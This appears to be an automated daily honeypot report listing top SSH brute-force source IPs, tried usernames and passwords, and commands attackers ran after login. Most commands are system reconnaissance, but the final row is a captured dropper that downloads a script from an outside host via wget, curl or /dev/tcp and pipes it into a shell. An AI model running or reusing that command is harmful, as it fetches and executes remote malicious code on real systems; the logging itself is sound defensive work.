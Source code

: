 # ZOE - The daily report for the malicious behavior

> daily report for the malicious user behavior

This is the daily report for the malicious user behavior. It is generated by the ZOE system.

## SSH

The following table shows the top 10 malicious SSH users that have been detected by the ZOE
system. The table is sorted by the number of attempts.

### Top 10 malicious users

| Client IP | Count    |
|-----------|----------|
| 8.218.45.134 | 4873 |
| 8.218.186.25 | 4277 |
| 8.209.253.56 | 4172 |
| 60.205.179.11 | 4047 |
| 137.184.230.16 | 1732 |
| 109.123.254.15 | 1724 |
| 47.254.251.235 | 1279 |
| 128.199.45.85 | 849 |
| 146.190.149.148 | 796 |
| 167.172.174.75 | 737 |

### Top 10 malicious try to login as

| Usernames | Count    |
|-----------|----------|
| root | 1476 |
| oracle | 98 |
| admin | 85 |
| ubuntu | 82 |
| user | 61 |
| git | 52 |
| test | 48 |
| validator | 47 |
| node | 43 |
| postgres | 37 |

### Top 10 malicious try to authenticate with

| Password | Count    |
|-----------|----------|
| 123456 | 388 |
| 12345678 | 97 |
| password | 83 |
| 111111 | 72 |
| 1234 | 58 |
| 123 | 51 |
| validator | 40 |
| root | 38 |
| admin | 32 |
| node | 31 |

### Top malicious commands try to execute

| Client | Command |
|--------|---------|
| 137.184.230.16 | uname -s -v -n -r -m |
| 137.184.230.16 | uptime -p |
| 137.184.230.16 | lspci \| grep VGA \| cut -f5- -d ' ' |
| 137.184.230.16 | lspci \| grep VGA -c |
| 137.184.230.16 | nvidia-smi -q \| grep "Product Name" \| head -n 1 \| awk '{print $4, $5, $6, $7, $8, $9, $10, $11}' |
| 137.184.230.16 | lspci \| grep "3D controller" \| cut -f5- -d ' ' |
| 137.184.230.16 | nvidia-smi -q \| grep "Product Name" \| awk '{print $4, $5, $6, $7, $8, $9, $10, $11}' \| grep . -c |
| 137.184.230.16 | ip r \| grep -Eo '[0-9]{1,3}.[0-9]{1,3}.[0-9]{1,3}.[0-9]{1,3}/[0-9]{1,2}' |
| 221.12.146.131 | uname -s -m |
| 120.26.168.134 | uname -s -m |
| 137.184.230.16 | uname -s -v -n -r -m |
| 137.184.230.16 | uptime -p |
| 137.184.230.16 | lspci \| grep VGA \| cut -f5- -d ' ' |
| 137.184.230.16 | lspci \| grep VGA -c |
| 137.184.230.16 | nvidia-smi -q \| grep "Product Name" \| head -n 1 \| awk '{print $4, $5, $6, $7, $8, $9, $10, $11}' |
| 137.184.230.16 | lspci \| grep "3D controller" \| cut -f5- -d ' ' |
| 137.184.230.16 | nvidia-smi -q \| grep "Product Name" \| awk '{print $4, $5, $6, $7, $8, $9, $10, $11}' \| grep . -c |
| 137.184.230.16 | ip r \| grep -Eo '[0-9]{1,3}.[0-9]{1,3}.[0-9]{1,3}.[0-9]{1,3}/[0-9]{1,2}' |
| 94.103.125.37 | uname -a; echo -e "\x61\x75\x74\x68\x5F\x6F\x6B\x0A"; SC=$(wget -O- http://94.156.177.109/sh \|\| curl http://94.156.177.109/sh); if [ $? -ne 0 ]; then exec 3<>"/dev/tcp/94.156.177.109/80"; echo -e "GET /sh HTTP/1.0\r\nHost: 94.156.177.109\r\n\r\n" >&3; (while read -r line; do [ "$line" = $'\r' ] && break; done && cat) <&3 \| sh -s ssh; exec 3>&-; else echo "$SC" \| sh -s ssh; fi |
